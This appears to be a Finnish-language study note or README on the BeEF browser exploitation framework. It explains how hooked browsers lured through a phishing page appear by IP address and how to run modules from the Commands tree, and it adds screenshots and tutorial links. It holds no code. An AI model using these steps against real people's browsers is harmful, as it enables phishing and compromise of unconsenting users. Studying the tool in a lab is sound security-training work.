Eli toiminnaltaan hakee tämän hetkisen IP-osoite tai (hooked browsers), mitä yritettään kalastella vaikappa just kyseisen index.html sivusta sinne yritettään saada käyttäjän/henkilön huijatuksi. Klikkaa kyseinen IP-osoite, mihin siinä on lisätty scriptaus niin pitäisi tulla näkyviin `Commands` ja alla `module tree` niin sieltä kansion alla on useita vaihtoehtoisia testauksia niin klikkaa niistä jokin vaihtoehto tai näiden alta, miltä ne näyttää kun päivittää sivuston. 





<details>
<h2> Ensimmäinen ensimerkki </h2> <br>





<h2> Toinen esimerkki </h2> <br>





</details>

<hr>

# linkkei ja tarkennusta BeEF hakkeri työkalusta 

https://kalilinuxtutorials.com/hacking-with-beef/ <br>

lataus ohje; <br>
https://www.golinuxcloud.com/beef-hacking-framework-tutorial/ <br>

## helpot steppit harjoitukset

https://www.golinuxcloud.com/beef-hacking-framework-tutorial/ <br>

http://www.securityhardening.com/library/Article34.pdf <br>

https://owasp.org/www-chapter-sacramento/assets/slides/20200221-intro-to-beef.pdf <br>


